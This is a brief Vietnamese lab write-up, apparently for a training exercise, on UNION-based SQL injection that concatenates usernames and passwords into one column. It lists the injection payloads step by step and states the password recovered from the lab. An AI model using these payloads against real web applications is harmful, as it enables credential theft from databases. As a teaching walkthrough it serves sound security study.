

Xin chào lại là l3mh0cr3d đây
Đề bài lần này sẽ là Tấn công UNION chèn SQL , truy xuất nhiều giá trị trong một cột
 Thì thay vì nó query ra một một nên chúng ta thử xem
 + Đầu tiên hãy thử xem loại db gì
 Khi payload là       filter?category=Gifts%27%20UNION%20SELECT%20NULL,NULL%20--
 thì trả ra kết quả bây giờ chúng ta sẽ cần truy xuất cả username và password trong 1 cột:
                                        filter?category=Gifts%27%20UNION%20SELECT%20NULL,CONCAT(username, ' ~ ', password)%20--
 có vẻ như không được nên dùng cái này
                                        '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
và oke đã thành công 

password là yk30enm4dajf3novrksb

chúc các bạn thành công :))
Author : l3mh0cr3d from kma wit4 l013